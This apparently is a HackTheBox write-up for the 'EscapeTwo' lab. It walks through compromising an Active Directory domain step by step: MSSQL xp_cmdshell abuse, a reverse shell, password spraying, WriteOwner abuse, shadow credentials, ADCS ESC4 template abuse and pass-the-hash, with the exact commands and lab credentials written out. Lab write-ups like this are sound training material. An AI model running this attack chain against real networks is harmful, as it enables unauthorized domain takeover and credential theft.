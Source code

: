 ```yaml
---
title: "HackTheBox - EscapeTwo"
date: 2025-05-22
draft: false
series: "HTB Machines"
tags: ["active directory", "hackthebox", "windows"]
---
```


# EscapeTwo Walkthrough
In the machine description, we have credentials to start the machine, `rose` and `KxEPkKe6R8su`.

---


## 1. Enumeration
### 1.1 NMAP
As usual, let’s start by checking the open ports on the machine

<!-- ----
> TESTE

- TESTE2

~~strikethrough~~

`TESTE3`

---- -->

```bash
nmap -p- --open -T4 10.10.11.51 -Pn -oA nmap-out
```
**Key findings:**

![nmap](/images/escapetwo-nmap.png)

### 1.2  SMB Shares
Enumerating SMB with smbclient and `rose` credentials:

![smb enum](/images/escapetwo-smb.png)

> **Finding:** `Users` and `Accounting Department` shares.

By checking the `Accounting Department` share, we can see two `.xlsx` files. Let’s download them and check their content.

![smb enum](/images/escapetwo-smb1.png)

Inside `accounts.xlsx -> xl -> sharedStrings.xml` we can find some credentials. Let’s take note of them and move on
![sharedStrings](/images/escapetwo-sharedStrings.png)
![creds](/images/escapetwo-creds.png)

> Finding 1: `angela / 0fwz7Q4mSpurIt99`

> Finding 2: `oscar / 86LxLBMgEWaKUnBG`

> Finding 3: `kevin / Md9Wlq1E5bZnVDVo`

> Finding 4: `sa / MSSQLP@ssw0rd!`


In general, `sa` is the common admin user for MSSQL databases. Let’s try to explore this first using Impacket’s mssqlclient script.

### 1.3 MSSQL Service
![mssql](/images/escapetwo-mssql.png)

> Great, now we are db admin.

By default, xp_cmdshell is disabled in MSSQL, let's enable it.

```bash
enable_xp_cmdshell
```
![enable cmdshell](/images/escapetwo-enablecmd.png)

To obtain more data, we can check default files from MSSQL deployment:

```bash
exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'
```

![new creds](/images/escapetwo-newcreds.png)

> **Finding:** New credential, `SEQUEL\sql_svc / WqSZAF6CysDQbGb3`

----

## 2. Shell as sql_svc
Since we can execute commands with the SQL service, we can try a PowerShell reverse shell. We can generate it using [RevShell Generator](https://www.revshells.com/).

### 2.1 Powershell Payload - Base64 encoded

![revshell](/images/escapetwo-revshell.png)

### 2.2 Receiving connection
![revshell1](/images/escapetwo-revshell1.png)

> **Now we are inside the box!**

---

## 3. Lateral Movement
Looking for some users at `C:/Users/` that have logged into the machine we can see just `ryan` as a possible next goal. Let's try a password spray with all the credentials that we've got.

### 3.1 Password spray
Putting all the previous password on a file called passwords.txt, let's start the attack with netexec.

![password spray](/images/escapeTwo-passwordSpray.png)

> **Finding:** New valid credential for `ryan` user.

### 3.1 Evil-winrm with `ryan`
Let's try a shell with `ryan` user.

![shell as ryan](/images/escapetwo-ryanshell.png)

> **Great, we succesfull did a lateral movement!**
----

## 4. Privillege Escalation
### 4.1 BloodHound
Let's get some information with Bloodhound and analyse it.

```
```

![bloodhound](/images/escapetwo-bloodhound.png)

### 4.2 WriteOwner Abuse
By analysing the results, we can se that use `ryan` has `WriteOwner` rights on `ca_svc` object, this can result in a full control of that object. Let's explore this.

![abuse writeowner](/images/escapetwo-abuseOwner.png)

Grant ourselves ownership of the object in AD:

```bash
bloodyAD --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```

Give ourselves FullControl over the ca_svc user, allowing us to add a shadow credential on next step:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' '10.10.11.51'/"ryan":"WqSZAF6CysDQbGb3"
```

![abuse owner](/images/escapetwo-abuseOwner1.png)

Now we can add a shadow credential:

```bash
certipy-ad shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51  
```

![shadow cred](/images/escapetwo-shadowCreds.png)

### 4.3 Enumerating ADCS Vulnerabilities
We can use certipy-ad tool to enumerate possible vulnerabilities in ADCS.
```bash
certipy-ad find -u 'ca_svc' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip '10.10.11.51' -vulnerable
```
![enum-adcs](/images/escapetwo-enum-adcs.png)

> **Vulnerable to ESC4!**

### 4.4 ESC4 Abuse
ESC4 (ESCalation 4) refers to a privilege escalation path where an attacker abuses the ability to manage certificate templates in an ADCS environment. Specifically, the attacker has permissions like WriteOwner, WriteDacl, WriteProperty, or AllExtendedRights over a certificate template object.

By modifying the template's settings, the attacker can make it vulnerable, then request a certificate to impersonate privileged users, such as Domain Admins or Enterprise Admins.

Using `certipy-ad`to exploit it:

 We have to do this very quickly due to the error *CERTSRV_E_SUBJECT_DNS_REQUIRED - The Domain Name System (DNS) name is unavailable and cannot be added to the Subject Alternate name*

Cause ca_svc has full control over the template we'll make it vulnerable to ESC1 at first.

```bash
certipy-ad template -u 'ca_svc' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip '10.10.11.51' -template 'DunderMifflinAuthentication' -write-default-configuration -no-save
```

![esc4-pt1](/images/escapetwo-esc4-1.png)

Now, I can request for a domain administrator certificate using the modified template:

```bash
certipy-ad req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb
```

![esc4-pt2](/images/escapetwo-esc4-2.png)


With the certificate, we can retrieve the NTLM hash for the account:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51
```
![esc4-pt3](/images/escapetwo-esc4-3.png)

### 4.5 Shell as Domain Admin
Now, just evil-winrm with the new hash.

```bash
evil-winrm -u 'administrator' -H 7a8d4e04986afa8ed4060f75e5a0b3ff -i 10.10.11.51 
```

![esc4-pt2](/images/escapetwo-domainadmin.png)